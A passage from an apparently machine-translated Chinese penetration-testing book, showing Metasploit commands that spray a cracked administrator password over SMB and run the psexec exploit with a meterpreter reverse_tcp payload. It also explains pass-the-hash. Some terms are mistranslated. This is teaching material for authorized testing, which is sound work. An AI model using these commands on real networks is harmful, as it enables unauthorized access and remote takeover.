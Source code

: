 如您所见，该行包含`445/open/tcp`详细信息，这允许我们针对该特定行。然后，我们使用空格作为定界键进行剪切，并选择字段 2，其中，如果按空格计算数据字段，则可以找到 IP 地址。此技术非常常见，可用于快速识别 IP 地址打开的内容，并基于服务或端口创建多个平面文件。

如[第 1 章](01.html "Chapter 1. Understanding the Penetration Testing Methodology")所示，*了解渗透测试方法*后，您可以使用 Metasploit 模块中的`rhosts`字段，通过 CIDR 符号或范围来定位主机。创建平面文件时，可以使用 Metasploit 模块通过引用平面文件来访问主机列表。要运行 Metasploit 控制台，请执行以下命令：

```
msfconsole

```

如果从命令行运行 Metasploit Professional，请使用以下命令：

```
msfpro

```

现在来看这个例子，其中我们将尝试查看我们之前破解的密码是否在网络其余部分的任何主机上工作：

```
use auxiliary/scanner/smb/smb_login
set SMBUser administrator
set SMBPass test
set SMBDomain Workgroup
set RHOSTS file:/root/Desktop/smb_hosts_list
run

```

`use`命令选择本例中要使用`smb_login`模块的模块，该模块验证**服务器消息块**（**SMB**）凭证。`SMBUser`集合选择您要对其执行此攻击的用户名。`SMBPass`集合选择本模块中要使用的密码。设置`SMBDomain`字段允许您为组织设置域。`run`命令执行辅助模块。在早些年，您必须使用`run`来执行一个辅助模块，并对一个利用模块进行利用。如今，这些模块确实是可互换的，是开发后模块的例外，需要`run`，如[所示 https://www.offensive-security.com/metasploit-unleashed/windows-post-gather-modules/](https://www.offensive-security.com/metasploit-unleashed/windows-post-gather-modules/) 。

### 提示

如果您使用本地帐户进行攻击，则应将域设置为工作组。攻击域帐户时，应将域设置为组织的实际域。

Metasploit Professional 是一个帮助优化渗透测试工作的工具，它有一个 web**图形用户界面**（GUI）。Metasploit pro 提供了许多出色的功能，但是如果您需要在受防火墙保护的多个网络层之间切换，控制台是最佳选择。要了解如何执行自动旋转，您可以在[找到详细信息 https://www.offensive-security.com/metasploit-unleashed/pivoting/](https://www.offensive-security.com/metasploit-unleashed/pivoting/) 。要了解如何执行手动枢轴，请参阅[https://pen-testing.sans.org/blog/2012/04/26/got-meterpreter-pivot](https://pen-testing.sans.org/blog/2012/04/26/got-meterpreter-pivot) ，包括基于端口的旋转、手动路由和 SOCKS 代理。

这种攻击方式非常普遍；您可以查找凭据，确定凭据可能使用的服务，然后为目标主机构建平面文件。接下来，您将引用这些平面文件来检查主机是否存在漏洞。一旦您确认这些主机易受攻击，您可以使用**进程执行****PSEXEC**攻击（如果您有哈希）或标准认证的 PSEXEC，通过**传递哈希****PtH**攻击利用它们，如下代码所示：

### 提示

PtH 是一种攻击，它利用了与系统如何在网络上进行身份验证相关的本机 Windows 弱点。不需要质询/响应身份验证方法，哈希密码可以直接传递给主机。这意味着您不必破解**局域网管理器****LM**或**新技术 LM****NTLM**哈希。许多 Metasploit 模块可以对 SMB 服务使用凭据或哈希。

```
msfconsole
use exploit/windows/smb/psexec
set SMBUser administrator
set SMBPass test
set SMBDomain Workgroup
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.195.112
set LPORT 443
exploit -j

```
